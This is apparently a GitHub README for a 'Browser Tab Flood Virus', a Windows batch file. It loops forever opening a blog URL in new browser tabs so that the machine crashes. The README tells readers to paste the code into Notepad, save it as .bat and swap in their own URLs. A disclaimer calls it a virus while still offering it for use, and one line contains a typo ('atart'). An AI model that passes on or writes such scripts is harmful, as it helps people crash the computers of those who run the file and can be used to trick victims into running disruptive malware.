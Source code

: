 # Browser Tab Flood Virus
This code will Crash the system After Executing The Files With Opening Thousands Of Browser Tab At One Time. 
<br>
In This Code You Noticed Some URL's. You Can Replace And Edit Thouse URLs With Yours
# Copy The Following Code To Notepad And Save The File With .bat Extention. 
```
@echo off
:a
start https://oceanofanythingg.blogspot.com/
start https://oceanofanythingg.blogspot.com/
start https://oceanofanythingg.blogspot.com/
start https://oceanofanythingg.blogspot.com/
start https://oceanofanythingg.blogspot.com/
atart https://oceanofanythingg.blogspot.com/
goto :a
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.


